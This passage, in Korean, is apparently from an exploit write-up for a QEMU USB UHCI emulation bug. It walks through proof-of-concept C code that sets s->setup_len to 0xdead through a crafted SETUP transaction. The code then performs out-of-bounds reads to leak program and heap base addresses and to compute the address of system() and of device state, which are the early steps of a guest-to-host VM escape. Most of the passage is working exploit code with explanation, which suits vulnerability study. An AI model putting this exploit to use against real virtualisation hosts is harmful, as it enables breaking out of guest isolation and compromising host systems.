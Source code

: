 다음으로는 `SETUP Transaction`을 발생시켜 `s->setup_len`을 설정합니다. 
```c
do_set_lenth(USB_DIR_IN);
```

`do_set_length`의 코드는 다음과 같습니다.

```c
void do_set_lenth(uint8_t option) {
    set_td(0x7, USB_TOKEN_SETUP);
    set_length(0xdead, option);
    reset_uhci();
    enable_port();
    set_frame_base();
    pmio_write(0, 1);
    mdelay(100);
}
```


이때 `s->setup_len`은  `0xdead`로 설정되고, `s->setup_state`는 별다른 처리없이 `SETUP_STATE_DATA`로 남아 있습니다.
```c
static void do_token_setup(USBDevice *s, USBPacket *p)
{
    int request, value, index;

    if (p->iov.size != 8) {
        p->status = USB_RET_STALL;
        return;
    }

    usb_packet_copy(p, s->setup_buf, p->iov.size);
    s->setup_index = 0;
    p->actual_length = 0;
    s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6];
    if (s->setup_len > sizeof(s->data_buf)) {
        fprintf(stderr,
                "usb_generic_handle_packet: ctrl buffer too small (%d > %zu)\n",
                s->setup_len, sizeof(s->data_buf));
        p->status = USB_RET_STALL;
        return;
    }
	...
}
```

다시 `PoC`를 보면 위에서 설정된 값을 통해 `OOB Read`를 수행합니다.
```c
for(i = 0; i < 4; i++)
	do_read(0x7fe); //oob read
base = *(uint64_t *)(data_buf + 7) - 0x73D513;
heap_base = *(uint64_t *)(data_buf + 15) - 0xEB4240;
system = base + 0x2ba600;
uhci_state = heap_base + 0xDA48E0;
data_buf_addr = heap_base + 0xEB43EC; 
main_loop_tlg = base + 0x129e0c0;
printk(KERN_INFO"[+]the program base is: 0x%llx", base);
printk(KERN_INFO"[+]the heap    base is: 0x%llx", heap_base);
printk(KERN_INFO"[+]the uhci   state is: 0x%llx", uhci_state);
printk(KERN_INFO"[+]the system  base is: 0x%llx", system);
printk(KERN_INFO"[+]the buffer  addr is: 0x%llx", data_buf_addr);
```
